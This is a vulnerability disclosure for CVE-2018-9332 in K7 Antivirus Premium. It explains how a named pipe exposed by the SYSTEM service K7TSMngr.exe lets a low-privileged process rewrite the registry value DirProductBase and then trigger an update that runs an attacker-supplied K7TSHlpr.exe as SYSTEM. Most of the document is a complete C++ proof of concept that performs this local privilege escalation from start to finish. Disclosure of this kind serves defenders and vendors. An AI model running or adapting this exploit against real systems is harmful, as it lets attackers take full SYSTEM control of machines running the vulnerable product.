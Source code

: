 # CVE-2018-9332

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Following on from the background piece above regarding the Pipe, the handler for the function id 0x10044 allows the remote call to perform registry modification from the K7TSMngr.exe service (which runs with SYSTEM integirty). As you can call this from a LOW privileged process, you have good control of the entire registry which makes LPE relatively trivial.

The handler routine eventually calls sub_40C9E0 which is a simple wrapper over sub_41EA90 which is where all the registry interaction occurs.

The PoC code overwrites the value of DirProductBase in the K7’s registry key in HKLM/SOFTWARE. This key is used regularly when building up paths of executables to run, such as the process used to check for updates (K7TSHlpr.exe). Once that key is overwritten with a location that can be controlled, the K7TSMngr will look in the new location for this binary and will run it from there. Therefore, we just set the string to something we control, make the appropriate binary, then call pipe with the ID 0x10010, and this triggers an update to occur, this launching our binary as SYSTEM. All of which can be done from a LOW integrity process.

While the PoC demonstrates this via K7's own infrastructure, there are many other keys you can play with to achieve the same effect.

# PoC Code
For this PoC, put the binary you want to launch as SYSTEM (in session 0) in the following path and name it as K7TSHlpr.exe, it doesn't have to be the real one, just have that name:
* C:\\test\\hacked\\K7TSHlpr.exe

```C++
#include <Windows.h>
#include <stdio.h>

#define _CRT_SECURE_NO_WARNINGS

typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

//
// This vulnerability demonstrates achieveing SYSTEM runtime via setting arbitary registry key 
// modification by a SYSTEM level process. I have specifically targetted K7 because it 
// demonstrates the point, however there are many placed in the Generate Windows Registry which 
// do the same thing
//
int Vuln_RegistryRewriting_K7UpdateKey()
{
	DWORD dwSize = 0x4000;
	PCHAR pszData = (char*)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	//
	// Setup our pipe connection
	//
	if (!InitPipe())
	{
		printf("Error: InitPipe failed\r\n");
		return 0;
	}

	//
	// This will modify the following registry key's DirProductBase to point to our hacked path. 
	// This path is completely controllable.
	//
	snprintf(pszData, dwSize, "[%s]\r\n\"%s\"=\"%s\"\r\n", "HKLM\\SOFTWARE\\K7 Computing\\K7TotalSecurity", "DirProductBase", "C:\\test\\hacked");

	//
	// This will perform the actual modification to the registry key via the K7TSMngr service.
	//
	if (!CallPipeFunction(0x10044, (PBYTE)pszData, dwSize, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return 0;
	}

	//
	// This kicks off an update process and will run any binary called K7TSHlpr.exe from the folder 
	// in DirProductBase. Therefore we have just created a process with SYSTEM integrity in Session
	// 0. Fab :)
	//
	InitPipe();
	BYTE data[0x10] = { 0 };
	if (!CallPipeFunction(0x10010, data, sizeof(data), NULL, 0))
	{
		printf("Error: Kicking off an update failed\r\n");
		return 0;
	}

	return 1;
}


int main(int argc, char** argv)
{
    Vuln_RegistryRewriting_K7UpdateKey();
	return 0;
}

```